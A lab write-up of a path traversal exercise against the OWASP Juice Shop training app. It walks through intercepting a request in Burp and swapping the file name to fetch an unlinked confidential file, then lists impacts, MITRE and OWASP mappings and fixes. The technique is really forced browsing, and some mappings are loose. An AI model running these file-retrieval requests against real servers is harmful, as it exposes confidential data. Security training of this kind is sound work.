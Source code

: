 
# 🛡️ 03 – Path Traversal Vulnerability: Unauthorized Access to Confidential Documents

## 🔍 Summary

A **path traversal vulnerability** in the OWASP Juice Shop web application allows unauthorized access to internal server files by manipulating URL paths. Exploiting this flaw exposes sensitive corporate documents, including acquisition plans—posing a **critical confidentiality risk**.

> 💣 **Impact**: Unauthorized actors can bypass access controls to retrieve internal business data that could be used for espionage, insider trading, or social engineering campaigns.

---

## ✅ Step-by-Step Exploitation

### 1️⃣ Navigate to the "About Us" Page  
Visited the default route:
```

[http://192.168.0.105:3000/#/about](http://192.168.0.105:3000/#/about)

```
This page includes links to markdown-based legal documents, such as `legal.md`.

---

### 2️⃣ Intercepted the Legal Document Request  
Clicked "Terms of Use" and intercepted the outbound request in **Burp Proxy**:

```

GET /ftp/legal.md HTTP/1.1
Host: 192.168.0.105:3000

```

---

### 3️⃣ Modified Path to Access Hidden File  
Using **Burp Repeater**, replaced the file path with another markdown file:

```

GET /ftp/acquisitions.md HTTP/1.1

```

📌 This file was not referenced in the UI but **resided on the same server path**—a classic directory traversal opportunity.

---

### 4️⃣ Received Confidential Content  
Got a `200 OK` response, with sensitive data exposed:

```

This document contains confidential details about company acquisition plans.

```

> 🔥 This confirmed that the backend accepts arbitrary file paths without validation.

---

### 5️⃣ Validated with Browser or curl  
Opened the same URL in a browser:
```

[http://192.168.0.105:3000/ftp/acquisitions.md](http://192.168.0.105:3000/ftp/acquisitions.md)

````
Or verified via command line:
```bash
curl http://192.168.0.105:3000/ftp/acquisitions.md
````

---

## 📸 Screenshots

| Step                              | Screenshot                                   |
| --------------------------------- | -------------------------------------------- |
| 🔗 "About Us" Page                | ![1](./01-about-page-terms-link.png)         |
| 🛰️ Burp Proxy Request            | ![2](./02-burp-proxy-legal.md-request.png)   |
| 🧪 Modified Path in Repeater      | ![3](./03-repeater-path-traversal-input.png) |
| ✅ Response with Confidential Data | ![4](./04-repeater-200-ok-aquisitions.png)   |
| 🌐 Browser Verification           | ![5](./05-browser-confirm-success.png)       |

---

## 💣 Real-World Impact

| Threat Scenario                 | Business Risk                                                                    |
| ------------------------------- | -------------------------------------------------------------------------------- |
| 📄 Unauthorized Document Access | Access to business strategies, legal contracts, or financial records             |
| 🧑‍💼 Insider Risk Amplified    | Internal-only content like acquisition plans exposed to external attackers       |
| ⚖️ Regulatory Violations        | Breach of privacy, NDAs, and compliance requirements (e.g. GDPR, SOX)            |
| 🎯 Recon for Social Engineering | Attackers can use leaked info to craft targeted phishing or pretexting campaigns |

---

## 🎯 MITRE ATT\&CK Mapping

| ID    | Technique                         |
| ----- | --------------------------------- |
| T1083 | File and Directory Discovery      |
| T1203 | Exploitation for Client Execution |

---

## 🧪 OWASP Top 10 Mapping

| ID       | Category                  |
| -------- | ------------------------- |
| A05:2021 | Security Misconfiguration |
| A01:2021 | Broken Access Control     |

---

## 🔐 Recommendations

| Action                      | Description                                                                       |
| --------------------------- | --------------------------------------------------------------------------------- |
| ✅ Path Sanitization         | Reject or sanitize `../` and other directory traversal characters.                |
| ✅ Input Validation          | Allow only specific filenames from a whitelist (e.g., `legal.md`, `privacy.md`).  |
| 🚫 Access Restrictions      | Deny public access to `/ftp` and similar sensitive directories via server config. |
| 🔍 Logging & Monitoring     | Log all suspicious path access attempts and alert on anomalies.                   |
| 🔒 Use Backend File Mapping | Never expose raw file system paths; use ID-based lookup via secure APIs.          |

---

## 🧠 Lessons Learned

* Never trust user-supplied paths.
* Always validate and sanitize file requests server-side.
* Review server file structures exposed over HTTP.
* Use automated scanners like **OWASP ZAP** or **Nikto** to uncover path traversal flaws.

---

## 📚 References

* [OWASP Directory Traversal Guide](https://owasp.org/www-community/attacks/Path_Traversal)
* [Secure Coding Practices](https://cheatsheetseries.owasp.org/)


